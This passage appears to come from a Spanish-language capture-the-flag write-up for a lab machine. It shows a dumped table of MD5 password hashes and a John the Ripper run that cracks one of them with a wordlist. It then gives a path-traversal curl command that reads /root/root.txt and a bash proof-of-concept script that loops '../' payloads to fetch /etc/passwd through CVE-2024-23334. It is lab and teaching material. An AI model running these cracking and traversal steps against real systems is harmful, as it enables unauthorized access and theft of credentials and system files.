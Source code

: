 ```
21|tim|81dc9bdb52d04dc20036dbd8313ed055
22|test|098f6bcd4621d373cade4e832627b4f6
23|1234|81dc9bdb52d04dc20036dbd8313ed055
24|abc|900150983cd24fb0d6963f7d28e17f72
```

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorniosrosados (?)     
1g 0:00:00:00 DONE (2025-01-22 19:50) 2.857g/s 8519Kp/s 8519Kc/s 8519KC/s unihmaryanih..unicornios2805
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

rosa@10.10.11.38

## escapalda de privilegios
analizando un poco mas el sistema y haciendo un fuzing y analizando los poc todos atacan `statics` les dejo como tarea investigar y analizar el cve CVE-2024-23334-PoC
pero para ser mas claro `curl -s --path-as-is "http://127.0.0.1:8000/assets/../../../../../root/root.txt"` podemos leer el archivo que e puesto tambien cuando busque el cve por el navegador encontre este repositorio en github que hace lo mismo pero lo automatiza `https://github.com/z3rObyte/CVE-2024-23334-PoC`

```
#!/bin/bash

url="http://localhost:8081"
string="../"
payload="/static/"
file="etc/passwd" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```